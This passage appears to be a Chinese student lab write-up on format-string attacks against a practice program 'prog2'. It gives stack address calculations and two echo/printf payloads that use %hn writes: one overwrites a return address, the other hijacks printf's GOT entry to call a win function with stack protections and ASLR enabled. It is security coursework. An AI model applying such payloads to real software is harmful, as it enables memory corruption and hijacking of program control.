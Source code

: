 ebp的填充地址和frame pointer地址相同：0xbfffece8

ret=ebp+4=0xbfffecec

参数位置=ebp+12=0xbfffecf4

编写指令：

~~~bash
echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > input
./prog2
~~~

具体参考这个图片:

![image-20230612201003287](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612201003287.png)

![image-20230612201214527](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612201214527.png)

(我觉得应该还有一个是找15 的位置（之后可以再补充）)

##### 三、针对prog2 ，完成以下任务：

**开启** Stack Guard 保护，并**开启**栈不可执行保护，通过 GOT 表劫持，调用 win 函数。以上任务，需**开启** ASLR

1.实验环境配置

~~~bash
sudo sysctl -w kernel.randomize_va_space=2	//开启ASLR
gcc -fstack-protector -z noexecstack -o prog2 prog2.c  //开启Stack Guard和栈不可执行保护
~~~

![image-20230612211337561](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612211337561.png)

2.用gdb获得函数地址

~~~bash
gdb prog2
p &win 
~~~

![image-20230612211347219](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612211347219.png)

3.使用objdump查看printf函数的got表地址

~~~bash
objdump -R prog2
~~~

![image-20230612211920050](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612211920050.png)

4.我们要做的是在0x0804a00c处写入0x804850b

~~~bash
echo $(printf "\x0e\xa0\x04\x08@@@@\x0c\xa0\x04\x08")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%1920x%hn%32013x%hn > input
./prog2
~~~
